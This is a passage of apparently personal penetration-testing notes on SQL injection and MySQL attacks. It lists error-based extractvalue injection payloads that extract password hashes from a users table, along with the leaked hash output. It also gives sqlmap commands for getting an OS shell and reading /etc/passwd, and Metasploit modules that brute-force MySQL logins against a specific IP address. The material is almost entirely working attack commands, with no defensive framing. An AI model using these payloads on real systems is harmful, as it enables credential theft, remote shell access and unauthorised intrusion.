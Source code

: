     `') and extractvalue(0x0a,concat(0x0a,substring((select password from users LIMIT 0,1) FROM 30) FROM 30)))-- -`
    
    XPATH syntax error: '$2y$10$z/d5GiwZuFqjY1jRiKIPzPXKt0SthLOyU438ajqRBtrb7ZADpwq.'
    
    `') and extractvalue(0x0a,concat(0x0a,substring((select password from users LIMIT 1,1) FROM 30) FROM 1)))-- -`
    
    `') and extractvalue(0x0a,concat(0x0a,substring((select password from users LIMIT 1,1) FROM 30) FROM 30)))-- -`
    
    XPATH syntax error: '$2y$10$tY9Y955kyFB37GnW4xrC0...'
    
    XPATH syntax error: 'J.FzmkrQhxD..vKCQICvwOEgwfxqgAS'
    
    `') and extractvalue(0x0a,concat(0x0a,substring((select password from users LIMIT 2,1) FROM 30) FROM 1)))-- -`
    
    `') and extractvalue(0x0a,concat(0x0a,substring((select password from users LIMIT 2,1) FROM 30) FROM 30)))-- -`
    
    XPATH syntax error: '$2y$10$bj5Qh0AbUM5wHeu/lTfjg...'
    
    XPATH syntax error: 'xPxjRQkqU6T8cs683Eus/Y89GHs.G7i'
    
    `') and extractvalue(0x0a,concat(0x0a,substring((select password from users LIMIT 3,1) FROM 30) FROM 1)))-- -`
    
    `') and extractvalue(0x0a,concat(0x0a,substring((select password from users LIMIT 3,1) FROM 30) FROM 30)))-- -`
    
- SQLmap
    
    ```bash
    sqlmap -r login.req --risk=3 --level=3 --batch --force-ssl
    sqlmap -r login.req --risk=3 --level=3 --batch --force-ssl --os-shell
    sqlmap -r login.req --risk 3 --level 5 --technique=BEU --batch --privilege
    sqlmap -r login.req --risk 3 --level 5 --technique=BEU --batch --privilege --file-read=/etc/passwd
    ```
    
- Enum
    - auxiliary/scanner/mysql/mysql_version
        
        ```powershell
        Module 1: auxiliary/scanner/mysql/mysql_version
        Commands:
        use auxiliary/scanner/mysql/mysql_version
        set RHOSTS 192.76.252.3
        run
        ```
        
    - auxiliary/scanner/mysql/mysql_login
        
        ```powershell
        Module 2: auxiliary/scanner/mysql/mysql_logi
        Commands:
        use auxiliary/scanner/mysql/mysql_login
        set RHOSTS 192.76.252.3
        set USERNAME root
        set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
        set VERBOSE false
        run
        ```
        
